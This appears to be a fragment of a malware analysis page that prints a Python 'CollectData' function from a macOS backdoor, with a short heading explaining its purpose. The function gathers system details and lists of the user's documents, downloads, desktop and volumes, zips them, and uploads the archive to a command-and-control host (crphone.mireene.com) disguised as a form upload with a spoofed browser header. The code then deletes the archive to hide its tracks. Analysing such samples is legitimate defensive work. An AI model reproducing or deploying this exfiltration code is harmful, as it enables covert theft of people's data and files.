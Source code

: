 <h6>The Collectdata function queries for getting the system informations, files on the differents repertories, pack it on a password ZIP and send it to the C2.</h6>

```python
def CollectData():
 #create work directory
 home_dir = posixpath.expandvars("$HOME")
 workdir = home_dir + "/../../../Group Containers/UBF8T346G9.Office/sync"
 os.system("mkdir -p '" + workdir + "'")

 #get architecture info
 os.system("python -c 'import platform;print(platform.uname())' >> '" + workdir + "/arch.txt'")
 #get systeminfo
 os.system("system_profiler -detailLevel basic >> '" + workdir + "/basic.txt'")
 #get process list
 #os.system("ps -ax >> '" + workdir + "/ps.txt'")
 #get using app list
 os.system("ls -lrS /Applications >> '" + workdir + "/app.txt'")
 #get documents file list
 os.system("ls -lrS '" + home_dir + "/documents' >> '" + workdir + "/documents.txt'")
 #get downloads file list
 os.system("ls -lrS '" + home_dir + "/downloads' >> '" + workdir + "/downloads.txt'")
 #get desktop file list
 os.system("ls -lrS '" + home_dir + "/desktop' >> '" + workdir + "/desktop.txt'")
 #get volumes info
 os.system("ls -lrs /Volumes >> '" + workdir + "/vol.txt'")
 #get logged on user list
 #os.system("w -i >> '" + workdir + "/w_i.txt'")
 #zip gathered informations
 zipname = home_dir + "/../../../Group Containers/UBF8T346G9.Office/backup.zip"
 os.system("rm -f '" + zipname + "'")
 zippass = "doxujoijcs0qei09213@#$@"
 zipcmd = "zip -m -r '" + zipname + "' '" + workdir + "'"
 print(zipcmd)
 os.system(zipcmd)

 try:
  BODY = open(zipname, mode='rb').read()
  headers = {"User-Agent" : "Mozilla/5.0 compatible; MSIE 10.0; Windows NT 6.1; WOW64; Trident/7.0", "Accept-Language" : "en-US,en;q=0.9", "Accept" : "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "Content-Type" : "multipart/form-data; boundary=----7e222d1d50232"} ;
  boundary = "----7e222d1d50232";
  postData = "--" + boundary + "\r\nContent-Disposition: form-data; name=""MAX_FILE_SIZE""\r\n\r\n1000000\r\n--" + boundary + "\r\nContent-Disposition: form-data; name=""file""; filename=""1.txt""\r\nContent-Type: text/plain\r\n\r\n" + BODY + "\r\n--" + boundary + "--";
  conn = HTTPConnection("crphone.mireene.com")
  conn.connect()
  conn.request("POST", "/plugin/editor/Templates/upload.php", postData, headers)
  conn.close()

  #delete zipped file
  os.system("rm -f '" + zipname + "'")
 except:
  print "error"
```
